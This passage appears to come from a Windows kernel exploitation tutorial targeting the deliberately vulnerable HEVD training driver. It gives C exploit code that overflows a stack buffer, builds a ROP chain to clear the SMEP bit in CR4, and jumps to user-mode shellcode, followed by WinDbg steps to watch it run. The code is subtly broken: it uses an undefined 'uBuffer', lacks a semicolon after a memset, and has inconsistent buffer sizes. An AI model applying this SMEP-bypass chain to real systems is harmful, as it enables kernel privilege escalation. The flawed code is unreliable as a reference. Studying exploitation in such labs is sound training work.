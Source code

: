 what you need to do now is run the exploit you will get a BSOD then in windbg run `r cr4` which is the value of cr4 we need to change so we will next update the exploit with the right address for me i got 0x370e78 but it might be different for you here is the updated main

```c
int main()
{
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        return 1;
    }
    ULONG_PTR ntBase = GetKernelBaseAddress(); // gets the kernel base address

    QWORD POP_RCX = ntBase + 0x207c53;      // change the offset to what you got from ropper
    QWORD MOV_CR4_RCX = ntBase + 0x4bc9a7;  // change the offset to what you got from ropper

    LPVOID buf = VirtualAlloc(NULL, 3000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    int bufSize = 2072 + 4 * 8;
    memset(buf, 0x41, bufSize);
    memset(shellcode,0x90,500)

    QWORD* rop = (QWORD*)((QWORD)uBuffer + 2072);
    int i = 0;

    *(rop + i++) = POP_RCX;
    *(rop + i++) = 0x370e78 ^ 1UL << 20; // flips the 20th bit
    *(rop + i++) = MOV_CR4_RCX;
    *(rop + i++) = (QWORD)shellcode;

    DeviceIoControl(hDriver, 0x222003, buf, 2500, NULL, 0, NULL, NULL);

    return 0;
}
```

before we run the exploit we will set a break point inside the vulnerable function so we can see the nops being executed :

```
ba e1 HEVD!TriggerBufferOverflowStack
```

nice now run the exploit then keep going step by step until you reach the memmove which is a memcpy you will see something like this 

```
1: kd> 
0000026a`93680000 90              nop
```

thats it we mananged to execute shellcode !
